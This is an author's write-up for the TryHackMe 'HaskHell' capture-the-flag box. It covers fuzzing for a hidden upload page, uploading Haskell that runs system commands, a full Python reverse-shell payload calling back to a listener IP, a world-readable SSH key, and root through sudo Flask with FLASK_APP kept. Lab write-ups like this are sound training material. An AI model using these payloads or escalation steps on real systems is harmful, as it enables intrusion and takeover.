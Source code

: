 ```yaml
---
layout: default
title: "HaskHell Author's Writeup"
permalink: /HaskHell-Authors-Writeup
categories: haskell, tryhackme, haskhell
---
```


This is a brief writeup of the HaskHell box for the TryHackMe platform. You can find the box here: tryhackme.com/rooms/haskhell

This box was made as a medium-ish difficulty box with the intent of introducing users to a new programming language. I think that functional languages are super cool but don't get enough exposure and I'm tired of cracking PHP web apps, so I wanted to do something with some truly weird functionality.

There are a few small snags along the way, but the box is pretty straightforward for the most part.

## Scanning
After scanning, you'll find that port 22 and port 5001 are open. Port 5001 is running a Gunicorn web server.

## The web server
The index of the web server is the home page for a functional programming course, and provides a link to the first homework assignment.
![First page](https://passthehashbrowns.github.io/images/first_page.png)

The first homework assignment contains a few problems, and provides a link to where students can submit their Haskell files. 
![Second page](https://passthehashbrowns.github.io/images/second_page.png)

Unfortunately, the professor included the wrong link and we get a 404.
![Upload page](https://passthehashbrowns.github.io/images/upload_page.png)

With a little more enumeration, we find that there's a Submit page. Looks like the professor just got his wires crossed. The tool used here [is FFUF](https://github.com/ffuf/ffuf), my preferred tool for web fuzzing.
![Dirb scan](https://passthehashbrowns.github.io/images/dirb_scan.png)

Once we navigate to the Submit page, we find a pretty basic file upload functionality.
![Submit page](https://passthehashbrowns.github.io/images/submit_page.png)

On a previous page, the professor noted that only Haskell files would be accepted for upload, because of a lesson learned previously. We can try uploading other types of files, but they won't be accepted. We have a few routes that we can take from here. The immediate thought that comes to mind is to try and use Haskell to interact with system processes. I've written a short piece of code to do just that.
![Haskell base code](https://passthehashbrowns.github.io/images/haskell_base_cmd.png)

The Python payload that I used is just the PentestMonkey Python one-liner expanded because of my own neurosis.

~~~python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.126.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
~~~

NOTE: I've had some users saying that the box is broken because they get an internal server error if there's an integer or special character in the file name. The box isn't broken, this was done on purpose because I didn't want to introduce an OS Command Injection into the machine and I decided to blacklist all non alpha characters except for the dot in the file extension since that's exactly how a lazy professor would do it. Totally not cause I'm lazy. You can see the code that causes this here:
![Server error code](https://passthehashbrowns.github.io/images/server_error_code.png)

Some TryHackMe users were more clever than me implemented this more concisely. The reason that my solution uses wget to grab a Python file is that when you try to use createProcess with your standard BASH reverse shell, you get some weird issues with redirection. The most common solution that I've seen is to use the callCommand function from the System.Process library, which takes the command string as an argument. Here are the two for comparison:
1.
~~~haskell
import System.Process
import System.IO
main = do 
    (_, Just hout, _, _) <- createProcess (proc "ls" ["-la"]){ std_out = CreatePipe }
    cmdOut <- hGetContents hout
    putStrLn cmdOut
~~~
2.
~~~haskell
import System.Process
main = do
  callCommand "ls -la"
~~~

I use "ls -la" as an atomic example. While my solution does correctly handle IO, I think that their solution is far better in this case.

Still, I felt sort of weird that there was no existing reverse shell implementation in Haskell, so I went ahead and wrote my own. [You can find it here.](https://github.com/passthehashbrowns/Haskell-Reverse-Shell) Ironically, it doesn't work on this web server because of how the command is being run, but it does serve as a POC.

Anyways, using the Python payload, we can wget it and then run it.
![Python wget](https://passthehashbrowns.github.io/images/python_wget.png)

Now we get our callback as the flask user.
![Reverse shell catch](https://passthehashbrowns.github.io/images/rev_shell_callback.png)

## Escalating to prof
My preferred Linux enumeration tool is LinPEAS, but whatever tool you use should catch that the prof user's SSH key is world readable.
![LinPEAS SSH key](https://passthehashbrowns.github.io/images/linpeas_ssh_key.png)

Now we can SSH into the server by doing a quick chmod to give our key either 400 or 600 permissions. Once in the server as prof, we'll find that we can run Flask with sudo rights. The other thing that should stand out is that FLASK_APP is in the env_keep entry. This was necessary when building the box as the user needs to be able to set the FLASK_APP variable for later.
![Sudo enumeration](https://passthehashbrowns.github.io/images/sudo_enum.png)

Using Flask we can use the exact same Python payload as before and catch our root shell.
![Flask run](https://passthehashbrowns.github.io/images/flask_run.png)
![Catch root shell](https://passthehashbrowns.github.io/images/catch_root_shell.png)

Hopefully you enjoyed this box, I had a great time making it and plan on making more in the future. 


